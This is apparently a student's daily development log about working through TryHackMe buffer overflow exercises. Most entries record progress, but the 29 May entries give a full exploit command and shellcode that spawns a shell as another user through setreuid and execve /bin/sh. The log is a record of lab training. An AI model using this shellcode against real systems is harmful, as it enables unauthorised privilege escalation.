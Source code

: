 # Dev Log:

This document must be updated daily every time you finish a work session.

## Jakob Weir

### 2025-05-16 - TryHackMe
Spent class time doing TryHackMe on buffer overflow.

### 2025-05-19 - THM Continued
Tried to continue TryHackMe, but had trouble figuring out how to run the C code properly.

### 2025-05-20 - Further look into THM
Caught up absent group member, successfully ran C code, looked at ways to complete next part, including seeing memory addresses.

### 2025-05-21 - AP macroeconomics exam

### 2025-05-22 - Further THM research
Got an understanding of how to find and manipulate stacks. Learned some from https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261.

### 2025-05-23 - Running on lab computers
Ran some of the TryHackMe code on lab computers to test buffer overflow there after much trial and error.

### 2025-05-27 - Strange character
Tried to figure out why there was 8c instead of cc. Eventually fixed by using a payload instead of Python output.
From the walkthrough:
Because of the order in which Unix-based systems allocate memory, we need to unset some environment variables in order to use the same memory addresses inside and outside gdb. We need to unset env LINES and unset env COLUMNS within gdb with this command:

`set exec-wrapper env -u LINES -u COLUMNS`

### 2025-05-28 - Using buffer overflow for root access
Continued to next THM section. [THM](https://tryhackme.com/room/bof1). [Walkthrough](https://l1ge.github.io/tryhackme_bof1/).

### 2025-05-29 - Continuing trying to access a different user
More THM. Found `./buffer-overflow $(python -c "print('\x90'*86+'\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f')")` but didn't work. Will retry later.

Later that day: Copy pasting from the walkthrough gave me user2 access. Tried task 9. Generated assembly code "\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEB\x03\x66\xBF\xEB\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05" for switching to user3 but did not work. Will figure out more.

### 2025-05-30 - Moving to task 9
Found a walkthrough for task 9, somewhat helpful for my understanding. Pwntools is a help and can probably be used a lot in this project.
